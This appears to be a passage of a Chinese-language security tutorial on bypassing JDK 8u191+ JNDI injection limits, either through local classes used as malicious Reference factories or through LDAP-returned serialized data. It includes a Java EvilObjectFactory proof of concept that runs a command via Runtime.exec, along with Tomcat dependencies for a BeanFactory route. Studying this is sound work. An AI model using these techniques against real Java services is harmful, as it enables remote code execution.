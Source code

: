 ## 环境搭建

前面的JNDI注入最多到达JDK8U191

环境是JDK8U201

## 绕过的原理

对于JDK版本11.0.1、8u191、7u201、6u211及以上，RMI和LDAP的`trustURLCodebase`已经被限制，但是还存在几种方法绕过

1. 使用靶机本地的类作为恶意Reference Factory实现RCE
2. 利用LDAP返回的序列化值实现RCE

## 寻找本地的类作为恶意工厂

之前构造恶意工厂需要继承`javax.naming.spi.ObjectFactory`，同时覆写了`getObjectInstance`方法

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class EvilObjectFactory implements ObjectFactory {

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("done");
        Runtime.getRuntime().exec("calc");
        return null;
    }
}

```

如果需要本地的类作为恶意的工厂类，我们就需要寻找继承了`javax.naming.spi.ObjectFactory`的类

### BeanFactory类

环境：

```xml
 <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-catalina</artifactId>
            <version>8.5.0</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.tomcat.embed/tomcat-embed-el -->
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-el</artifactId>
            <version>8.5.3</version>
        </dependency>
```
